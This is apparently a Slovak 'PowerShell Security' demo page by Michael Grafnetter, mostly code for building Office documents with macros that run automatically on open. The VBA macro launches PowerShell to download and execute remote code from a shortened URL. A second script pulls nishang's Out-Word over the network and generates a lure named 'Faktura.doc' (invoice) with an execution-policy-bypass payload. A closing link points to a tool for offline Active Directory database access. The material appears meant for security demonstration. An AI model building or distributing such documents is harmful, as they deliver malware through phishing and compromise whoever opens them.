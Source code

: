 ```yaml
---
id: 9063
title: PowerShell Security
date: 2017-09-17T11:06:03+00:00
author: Michael Grafnetter
layout: page
guid: https://www.dsinternals.com/?page_id=9063
---
```

&nbsp;

### Office dokument s&nbsp;automaticky spúšťaným makrom

Vytvorte Office dokument (Word / Excel / PowerPoint) a&nbsp;vložte do&nbsp;neho cez&nbsp;makrá tento kód:

<pre class="lang:vb decode:true">' Kompatibilita s&nbsp;MS Word
Sub Auto_Open()
    Dim exec As&nbsp;String
    cmd = "powershell.exe ""Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://bit.ly/e0Mw9w'))"""
    Shell (cmd)
End Sub

' Kompatibilita s&nbsp;MS PowerPoint
Sub AutoOpen()
    Auto_Open
End Sub

' Kompatibilita s&nbsp;MS Excel
Sub Workbook_Open()
    Auto_Open
End Sub</pre>

### Automatické generovanie dokumentov s&nbsp;makrami

<pre class="lang:ps decode:true "># Import prikazu Out-Word z&nbsp;modulu nishang
IEX(IWR 'https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-Word.ps1')
 
# Vytvorenie payloadu
$payload = "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process"

# Vygenerovanie Word dokumentu
$path = Join-Path (Resolve-Path .) 'Faktura.doc'
Out-Word -Payload $payload -OutputFile $path -RemainSafe
</pre>

### Offline prístup k&nbsp;AD databázi

[Zdrojové kódy modulu DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
